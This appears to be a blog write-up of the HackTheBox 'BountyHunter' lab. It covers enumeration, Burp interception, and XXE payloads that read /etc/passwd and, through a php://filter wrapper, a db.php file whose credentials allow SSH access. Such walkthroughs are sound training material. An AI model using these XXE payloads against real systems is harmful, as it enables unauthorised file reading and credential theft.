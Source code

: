 ```yaml
---
layout: post
title: HackTheBox BountyHunter Write-up
---
```


<h2>Overview</h2>

BountyHunter is an easy-rated Linux machine on HackTheBox. It's running a website with an XML parser, which I can abuse with an XXE attack. In doing so, I'm able to read the contents of a
database file containing credentials which can be used to ssh in.

<h2>Initial Enumeration</h2>

Initial nmap scan reveals two ports open, ssh on 22 and an Apache website on 80.

```
┌──(kali㉿kali)-[~/…/Labs/htb/htb-active/temp]
└─$ sudo nmap -sC -sV --min-rate 10000 10.10.11.100          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-01 08:58 GMT
Nmap scan report for 10.10.11.100
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.47 seconds
```

<h2>"Bounty Hunters" website</h2>

Heading over to the website in my browser I'm greeted with this page:

![image](https://user-images.githubusercontent.com/44827973/144485752-7dfc04ad-3b30-4c88-b230-87825b0eaa3d.png)


Clicking "PORTAL" in the top right leads me to the message below.

![image](https://user-images.githubusercontent.com/44827973/144485841-e98ae5fb-ff69-4bd2-8530-63a379616eef.png)

Following the link, I find a submission form for reporting bug bounties.

![image](https://user-images.githubusercontent.com/44827973/144485922-9f121baa-8415-4190-a20e-123f452ecccc.png)

I put in some test values and when submitted, the page returns the same values. Nothing too special appears to be happening.

# INSERT BASIC TESTING SCREENSHOT HERE#

<h3>XXE attacks</h3>

I want to see if there's interesting in the POST request that can be abused. I fire up Burp Suite and intercept some test values:

![image](https://user-images.githubusercontent.com/44827973/144486504-dc51dfbf-6b33-42f6-a770-8d1757ef15c0.png)

The intercepted POST request has a single parameter, data. Instantly I recognise it as URL-encoded, due to the presence of %3D%3D which is URL-encoded "==" characters.

![image](https://user-images.githubusercontent.com/44827973/144486580-51b59c93-4f46-4d7b-9f46-79a23647b8f8.png)

I send the data to Burp's Decoder. First I URL-decode it, and I receive what looks like a base64-encoded string. What gives it away is the "=" characters, which sometimes pads the end of base64-encoded strings.
So then I base64-decode the URL-decoded data. You can see the results below.

![image](https://user-images.githubusercontent.com/44827973/144486896-cb908a70-54be-40c5-8a10-530d0282130c.png)

It looks like the data being sent to the web server is XML-formatted. Because the web server is likely to process XML data, I may be able to conduct an XXE attack.

An XML eXternal Entity (XXE) attack abuses the parsing of XML data by creation of a custom XML entity. These are called External entities because they are defined from outside of the Document Type Definition (DTD).
We can define an entity to contain the contents of a file.

I test this by following the XML example as per the [https://portswigger.net/web-security/xxe](XXE article on Portswigger).

Here is my payload to attempt to read the contents of /etc/passwd:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "/etc/passwd"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
</bugreport>
```
Using Burp's Decoder, I encode in the reverse order of which the data was decoded, i.e. base64 and then URL.

I substitute this data back into the data parameter of the intercepted POST request.

![image](https://user-images.githubusercontent.com/44827973/144491846-5d8aa284-8e38-408b-aece-0e4dbafe0e6a.png)

The XXE attack is successful, and I am able to read the contents of /etc/passwd. I find one user account, "development".

With the information gathered so far, there aren't many other interesting files I can read at this point. Good options may be development's id_rsa for ssh, or /etc/shadow for passwords. I'm unable to read development's id_rsa file because the web server is likely running as www-data which won't have permission, and I'm unable to read /etc/shadow which by default has even stricter permissions.

<h3>Directory Busting</h3>

I run feroxbuster against the website, using default settings. Nothing too interesting is found.

![image](https://user-images.githubusercontent.com/44827973/144559968-0cd09907-4eff-49cc-9173-84cb032016ab.png)

Running it again with extensions reveals some interesting files.

![image](https://user-images.githubusercontent.com/44827973/144560037-d792b5cc-cfa2-4c4b-812a-7653ca4747ec.png)

Contents of /resources/README.txt:

![image](https://user-images.githubusercontent.com/44827973/144560071-63c62fab-3253-4ece-b8c2-d2165e34da8f.png)

I'm unable to view db.php. PHP files are executed by the server and only output the result to the client, we cannot usually read php source code.

<h3>Reading db.php via php wrapper</h3>

I already know I can read system file contents via XXE injections. What happens if I try to read db.php in this way?

The Payload:

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file=db.php"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
</bugreport>
```

Unfortunately, nothing is returned.

![image](https://user-images.githubusercontent.com/44827973/144560863-3027c2a9-7d71-4778-abc8-35487732b140.png)

What if we were to use a PHP wrapper?

I can use a PHP wrapper to try base64-encode the file. According to the PHP manual:

*php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.*

I modify the XML input as below. This will hopefully return a base64-encoded string containing the contents of db.php.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
</bugreport>
```
This time I'm successful in receiving what should be a base64 string.

![image](https://user-images.githubusercontent.com/44827973/144561794-fad0ebbe-b67b-4afd-824c-bc98157f72f2.png)

If I base64-decode this string, I get credentials.

![image](https://user-images.githubusercontent.com/44827973/144561898-52d8f3aa-5e6a-42a2-9f99-49d03ade7cc6.png)

Although there isn't an admin user to ssh in with, I test the password with the development user.

![image](https://user-images.githubusercontent.com/44827973/144561950-9eef6936-9c27-4e87-8438-e15ebfc053dd.png)

It works! I'm able to read the user.txt file.

![image](https://user-images.githubusercontent.com/44827973/144561982-b75380fe-ee36-46b3-870c-a0f538393e40.png)


